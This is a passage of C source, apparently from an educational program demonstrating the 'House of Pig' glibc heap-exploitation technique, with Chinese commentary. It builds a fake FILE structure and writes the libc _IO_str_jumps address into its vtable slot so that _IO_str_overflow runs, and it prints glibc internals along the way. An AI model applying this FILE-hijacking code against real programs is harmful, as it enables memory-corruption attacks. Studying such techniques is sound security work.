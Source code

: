 ```c
    printf_color(GREEN, UNDEFINED, "house of pig的一个重要思想就是让其执行_IO_str_overflow函数。\n");
    printf_color(GREEN, UNDEFINED, "这需要我们在vtable中写入_IO_str_jumps的地址，其中保存有这个函数的地址。\n");
    printf_color(GREEN, UNDEFINED, "看一下IDA中的_IO_str_jumps结构体：\n\n");
    printf_color(PURPLE, HIGHLIGHT,
                 "__libc_IO_vtables:00000000001E9560 qword_1E9560    dq 0                    ; DATA XREF: sub_52C20+49A↑o\n"
                 "__libc_IO_vtables:00000000001E9560                                         ; sscanf+B5↑o ...\n"
                 "__libc_IO_vtables:00000000001E9568                 dq 0\n"
                 "__libc_IO_vtables:00000000001E9570                 dq offset sub_93D50\n"
                 "\033[1;31m__libc_IO_vtables:00000000001E9578                 dq offset _IO_str_overflow\n\033[1;" PURPLE "m"
                 "__libc_IO_vtables:00000000001E9580                 dq offset _IO_str_underflow\n"
                 "__libc_IO_vtables:00000000001E9588                 dq offset _IO_default_uflow\n"
                 "__libc_IO_vtables:00000000001E9590                 dq offset _IO_str_pbackfail\n"
                 "__libc_IO_vtables:00000000001E9598                 dq offset _IO_default_xsputn\n"
                 "__libc_IO_vtables:00000000001E95A0                 dq offset _IO_default_xsgetn\n"
                 "__libc_IO_vtables:00000000001E95A8                 dq offset _IO_str_seekoff\n"
                 "__libc_IO_vtables:00000000001E95B0                 dq offset sub_92600\n"
                 "__libc_IO_vtables:00000000001E95B8                 dq offset sub_924E0\n"
                 "__libc_IO_vtables:00000000001E95C0                 dq offset sub_92870\n"
                 "__libc_IO_vtables:00000000001E95C8                 dq offset _IO_default_doallocate\n"
                 "__libc_IO_vtables:00000000001E95D0                 dq offset sub_937F0\n"
                 "__libc_IO_vtables:00000000001E95D8                 dq offset sub_93800\n"
                 "__libc_IO_vtables:00000000001E95E0                 dq offset sub_937D0\n"
                 "__libc_IO_vtables:00000000001E95E8                 dq offset sub_92870\n"
                 "__libc_IO_vtables:00000000001E95F0                 dq offset sub_937E0\n"
                 "__libc_IO_vtables:00000000001E95F8                 dq offset sub_93810\n"
                 "__libc_IO_vtables:00000000001E9600                 dq offset sub_93820\n\n");

    printf_color(GREEN, UNDEFINED, "其偏移为0x1E9560。将其填充到vtable字段，偏移为0xD8。\n");
    size_t _IO_str_jumps = libc_base + 0x1E9560;
    fake_FILE[0xD8 / 8] = _IO_str_jumps;

    printf_color(GREEN, UNDEFINED, "然后，我们进入_IO_str_overflow函数看看。\n\n");
    printf_color(BLUE, HIGHLIGHT, "(/libio/strops.c, line 80)\n");
    printf_color(PURPLE, HIGHLIGHT,
                 "int\n"
                 "_IO_str_overflow (FILE *fp, int c)\n"
                 "{\n"
                 "  int flush_only = c == EOF;\n"
                 "  size_t pos;\n"
                 "  if (fp->_flags & _IO_NO_WRITES)\n"
                 "      return flush_only ? 0 : EOF;\n"
                 "  if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))\n"
                 "    {\n"
                 "      fp->_flags |= _IO_CURRENTLY_PUTTING;\n"
                 "      fp->_IO_write_ptr = fp->_IO_read_ptr;\n"
                 "      fp->_IO_read_ptr = fp->_IO_read_end;\n"
                 "    }\n"
                 "  pos = fp->_IO_write_ptr - fp->_IO_write_base;\n"
                 "  if (pos >= (size_t) (_IO_blen (fp) + flush_only))\n"
                 "    {\n"
                 "      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */\n"
                 "\treturn EOF;\n"
                 "      else\n"
                 "\t{\n"
                 "\033[1;31m\t  char *new_buf;\n"
                 "\t  char *old_buf = fp->_IO_buf_base;\n"
```